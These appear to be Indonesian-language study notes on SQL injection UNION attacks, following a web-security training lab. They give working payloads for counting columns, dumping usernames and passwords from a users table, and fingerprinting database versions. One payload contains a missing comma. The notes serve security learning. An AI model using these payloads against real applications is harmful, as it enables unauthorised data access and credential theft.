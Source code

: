 ## **MATERI : SQL Injection UNION ATTACK**
Ketika aplikasi rentan terhadap SQL Injection, dan hasil dari query adalah respond dari aplikasi. Kamu bisa menggunakan ***UNION*** untuk mendapatkan data dari bagian lain ( _Other Table_ ) database. Ini biasa disebut dengan SQL injection UNION ATTACK. <br>
***UNION*** memungkinkan kamu untuk meng-execute 1 atau lebih _SELECT_ Query dan menambah hasil Query original. Contohnya :

>     SELECT a, b FROM table1 UNION SELECT c, d FROM table2
 SQL Query ini memberi 1 hasil dengan 2 kolom.<br> Berisi Kolom _a_ & _b_ pada _table1_ dan kolom _c_ & _d_ pada _table2_ 

agar ***UNION*** Query bekerja, 2 kunci utama harus terpenuhi: <br>
***1. Queri Individu harus memberikan jumlah kolom yang sama*** <br>
***2. Tipe data pada tiap kolom harus kompatible diantara queri individu***

## **LAB : SQL injection UNION attack, retrieving multiple values in a single column**

1. Gunakan BURP SUITE untuk Intercept dan modifikasi request yang menyusun kategori produk filter
2. Memastikan angka dari kolom yang di kembalikan dari query dan memastikan kolom mana yang berisi data
	Verifikasi bila query mengembalikan 2 kolom, dan hanya 1 yang berisi text.
	menggunakan  payload seperti berikut di parameter " category "
>     ' UNION SELECT NULL,'abc'--

3. Menggunakan Payload berikut untuk mendapatkan isi content dari users table:
>     ' UNION SELECT NULL username || '~' || password FROM users--

4. Verifkasi respond apliaksi yang berisi username & password

## **Materi : Menganalisa database pada serangan SQL Injection**
Untuk melakukan exploit SQL injection, terkadang menemukan infromasi tentang database tersebut. Seperti: <br>
***~Tipe dan Versi software database*** <br>
***~Isi dari Table & Column ( Kolom & Baris ) Database*** <br>

## **Materi : Menanyakan Tipe dan Versi database**
Kamu bisa berpotensi mengidentifikasi tipe dan versi database secara bersamaan dengan cara meng-inject ( provfiider-specific query ) untuk melihat apakah ada yang berhasil. <br>
Berikut adalah beberapa Query untuk menentukan versi database untuk beberapa tipe database populer: <br>

>      
    Database type		Query
    Microsoft, MySQL	SELECT @@version
    Oracle	SELECT * 	FROM v$version
    PostgreSQL		SELECT version()

Sebagai contoh, kamu bisa menggunakan "UNION" attack dengan input berikut:
>     ' UNION SELECT @@version--

Ini adalah kemungkinan outputnya, pada tahap ini kamu bisa mengkonfirmasi jika database Microsoft SQL Server dan
melihat versi yang digunakan:
>

    Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
    Mar 18 2018 09:11:49
    Copyright (c) Microsoft Corporation
    Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)



